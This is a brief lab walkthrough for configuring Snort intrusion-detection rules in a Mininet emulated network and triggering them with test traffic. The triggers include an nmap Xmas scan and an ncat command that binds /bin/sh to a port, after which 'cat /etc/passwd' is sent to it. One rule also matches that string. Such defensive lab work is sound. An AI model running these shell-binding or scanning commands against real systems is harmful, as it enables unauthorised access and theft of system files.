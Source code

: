 

## Run mininet
```
sudo mn
```

## Run snort on one mininet host
```
mininet/util/m h1 snort -A console -c /etc/snort/snort.conf -i h1-eth0
```

## Run an intrusive scan that snort should pick up
```
h2 nmap -sX h1
```

## Open snort rule to snort config
```
sudo nano /etc/snort/rules/local.rules
```

## Add snort rule
```
alert icmp any any -> $HOME_NET any (msg:"ICMP test"; sid:1000001;)
```

## Start snort with the new rule
```
mininet/util/m h1 snort -A console -c /etc/snort/snort.conf1 -i h1-eth0
```

## Condupt Pings to see if they trigger the new rule
```

```

Output:
```
07/19-21:47:17.493661  [**] [1:1000001:0] ICMP test [**] [Priority: 0] {ICMP} 10.0.0.2 -> 10.0.0.1
07/19-21:47:17.493673  [**] [1:1000001:0] ICMP test [**] [Priority: 0] {ICMP} 10.0.0.1 -> 10.0.0.2
```

## Create specific port rules in Snort
```
sudo nano /etc/snort/rules/local.rules
```
```
alert tcp any any -> $HOME_NET 21 (msg:"FTP connection attempt"; sid:1000002;)
```

## Start up snort with new rule
```

```

## Trigger ftp port alert
```
mininet> h2 ftp h1
```
Output:
```
07/19-21:50:05.880530  [**] [1:1000002:0] FTP connection attempt [**] [Priority: 0] {TCP} 10.0.0.2:39710 -> 10.0.0.1:21
```

## Rule for monitoring packet data
```
sudo nano /etc/snort/rules/local.rules
```
```
alert tcp any any -> $HOME_NET any (msg:"System file access"; content:"cat /etc/passwd"; sid:1000003;)
```

## Start up mininet with new snort rule
```
mininet/util/m h1 snort -A console -c /etc/snort/snort.conf1 -i h1-eth0
```

## Simulate attack which triggers new rule
```
mininet> h1 ncat -l -p 999 -e /bin/sh &
```
```
mininet> h2 ncat h1 999
cat /etc/passwd
```
Output:
```
07/19-22:03:45.677456  [**] [1:1000003:0] System file access [**] [Priority: 0] {TCP} 10.0.0.2:44690 -> 10.0.0.1:999
```